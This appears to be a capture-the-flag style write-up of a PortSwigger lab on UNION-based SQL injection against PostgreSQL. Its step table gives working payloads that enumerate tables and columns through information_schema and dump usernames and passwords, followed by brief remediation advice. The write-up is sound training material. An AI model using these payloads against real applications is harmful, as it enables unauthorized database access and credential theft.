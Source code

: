# SQL injection attack, listing the database contents on non-Oracle databases

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on non-Oracle databases”*, we demonstrated how an attacker can enumerate **all database tables, their columns, and sensitive user credentials** using a series of `UNION SELECT` queries against `information_schema`.
Because the application dynamically concatenates user-supplied text into its SQL queries without sanitisation, we pivoted from a simple injection test to full schema enumeration and credential harvesting.

---

## Why This Matters to You

* **Full data breach:** Once table names and column names are known, dumping sensitive data (usernames, passwords, payment details) becomes trivial.
* **Persistence risk:** Knowledge of schema details makes privilege escalation and backdoor creation easier for attackers.
* **Compliance violations:** Any unauthorised access to stored credentials can trigger GDPR, CCPA, or similar regulatory reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                                                   | Intended SQL generated by the app                                                                                                              | What actually happens & why                                          |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** and identified DB type as **PostgreSQL** with:<br>`' UNION SELECT NULL,version()--`                                                  | `SELECT * FROM someTable WHERE category='X' UNION SELECT NULL, version()--'`                                                                   | Version string confirms PostgreSQL back-end.                         |
| 2 | **Enumerated tables** with:<br>`' UNION SELECT table_name,table_schema FROM information_schema.tables--`                                                         | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, table_schema FROM information_schema.tables--'`                           | Listed all table names/schemas, including one called `users_kcstmf`. |
| 3 | **Enumerated columns** for the `users_kcstmf` table with:<br>`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--'` | Revealed columns `username_spivdg` and `password_dfxmeh`.            |
| 4 | **Dumped credentials** with:<br>`' UNION SELECT username_spivdg,password_dfxmeh FROM users_kcstmf--`                                                             | `SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh FROM users_kcstmf--'`                                | Retrieved all stored usernames and passwords.                        |
| 5 | **Logged in** using harvested credentials.                                                                                                                       | —                                                                                                                                              | Administrative access granted, lab solved.                           |

---

## Observable Output

| Test / Payload                                                                                      | Visible result                        | What it proved                              |
| --------------------------------------------------------------------------------------------------- | ------------------------------------- | ------------------------------------------- |
| `' UNION SELECT NULL,version()--`                                                                   | `PostgreSQL 14.x ...`                 | Backend database type & version confirmed.  |
| `' UNION SELECT table_name,table_schema FROM information_schema.tables--`                           | Long list of table names              | Schema enumeration works.                   |
| `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--` | `username_spivdg` / `password_dfxmeh` | Sensitive column names identified.          |
| `' UNION SELECT username_spivdg,password_dfxmeh FROM users_kcstmf--`                                | List of usernames and passwords       | **Complete credential disclosure** achieved |

---


## Conclusion

By leveraging basic UNION-based SQL injection against `information_schema`, we escalated from product-list manipulation to a **full database breach**, including credential theft. The fix requires moving away from string-concatenated SQL, enforcing least-privilege DB roles, and hardening password storage practices.

